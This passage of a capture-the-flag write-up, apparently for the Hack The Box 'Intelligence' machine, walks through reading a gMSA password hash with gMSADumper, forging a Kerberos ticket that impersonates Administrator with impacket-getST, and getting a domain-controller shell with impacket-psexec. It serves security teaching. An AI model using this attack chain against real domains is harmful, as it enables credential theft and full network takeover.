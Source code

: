 ## Reading GMSA Password

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#gmsa-attributes-in-the-active-directory

Reading GMSA passwords with [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
```bash
❯ python gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb -l dc.intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::b98d4cef68f72a98dfeed732d1b1abca
```

## Silver ticket Attack

"If you have compromised a user account or a computer (machine account) that has kerberos constrained delegation enabled, it's possible to impersonate any domain user (including administrator) and authenticate to a service that the user account is trusted to delegate to." ; **[Source](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)**

And "svc_int$" has the constrained delegation privilege to the computer `S-1-5-21-4210132550-3389855604-3437519686-1000` which is a member of the group `ENTERPRISE DOMAIN CONTROLLERS@INTELLIGENCE.HTB`.

* https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket

Before generating Silver ticket, sync time with the target domain: `sudo ntpdate 10.10.10.248`

Generating silver ticket with impacket getST.py script
```bash
❯ impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes b98d4cef68f72a98dfeed732d1b1abca:b98d4cef68f72a98dfeed732d1b1abca
```

![](/assets/img/posts/intelligence/silver-ticket.png)

Then Store `Administrator.ccache` path in a "`KRB5CCNAME`" environment variable
```bash
export KRB5CCNAME=./Administrator.ccache
```

Run `impacket-psexec` to get shell
```bash
❯ impacket-psexec intelligence.htb/Administrator@dc.intelligence.htb -k -no-pass
```
